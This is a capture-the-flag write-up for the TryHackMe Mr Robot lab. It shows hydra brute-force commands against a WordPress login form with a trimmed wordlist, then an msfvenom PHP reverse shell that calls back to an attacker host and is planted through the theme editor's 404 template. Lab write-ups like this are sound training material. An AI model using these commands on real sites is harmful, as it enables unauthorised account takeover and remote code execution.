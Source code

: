 Line 15 looks interesting



# foothold

## WordPress
So during the enumeration, I stump on some weird thing. So I pressed `back` button to go back the the visited page (http://192.168.0.18/fsociety) and this happen.

[!fsociety](pic/Screenshot%202020-07-01%20at%2020.27.20.png)
that is when I found out that the the web page is hosted on wordpress. Moreover I found the login page.
[!login](pic/Screenshot%202020-07-01%20at%2020.29.45.png)

so the goal is using `hydra` to brute-force the using `fsocity.dic` as wordlist. my gut said that the username is **elliot** eller **mr.robot** since they are the boss is the boss of fsocity

```console
bibo318@parrot:~/THM/mrRobot$ nano users.txt # mr.robot elliot
bibo318@parrot:~/THM/mrRobot$ hydra 10.10.250.6 -L users.txt -P fsocity.dic http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -V -t 64 -I
```

it take really long time so I decide to sort and remove duplicate world in `fsocity.dic` [how to do?](https://www.cyberciti.biz/faq/unix-linux-shell-removing-duplicate-lines/)
```console
bibo318@parrot:~/THM/mrRobot$ sort fsocity.dic | uniq -u > passwd.txt 
bibo318@parrot:~/THM/mrRobot$ wc -l passwd.txt 
10 passwd.txt
```
lmao now we have only 10 password left, let hope that it works otherwise we go back to `fsocity.dic`
```console
bibo318@parrot:~/THM/mrRobot$ hydra 10.10.250.6 -L users.txt -P passwd.txt http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -V -t 64 -I
[80][http-post-form] host: 10.10.250.6   login: elliot   password: PASSWORD
```


options: user [`wpscan`](https://wpscan.org/)  : ```$ hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'```

# get shell

use ```msfvenom``` to crate reverse shell
```console
bibo318@parrot:~/THM/mrRobot$ msfvenom -p php/reverse_php LHOST=<ip>  LPORT=1234 -f raw > shell.php
```

I try to upload the shell but it didnt works
[!nope](pic/Screenshot%202020-07-01%20at%2021.51.16.png)

After some I found this. ```http://<target>/wp-admin/theme-editor.php?```, it allows us to change php files. so I `cat` my shell.php and put in `template 404` 
